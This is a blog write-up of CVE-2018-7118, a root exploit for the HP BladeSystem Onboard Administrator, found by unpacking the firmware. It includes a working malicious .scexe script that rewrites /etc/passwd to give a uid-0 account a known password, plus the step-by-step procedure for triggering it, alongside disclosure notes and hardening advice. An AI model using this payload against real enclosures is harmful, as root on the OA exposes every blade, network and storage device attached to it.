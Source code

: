 +++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)
#### (What, you had a nefarious reason to hack it? I just wanted to sleep.)

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)
### Let's look at the firmware

The firmware for the bladesystem enclosure manager is available online. This vulnerability requires OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.

![](and-we're-in.png "Screenshot of an active root shell running on the BladeSystem c3000 OA")



## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/usr/bin/env bash
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
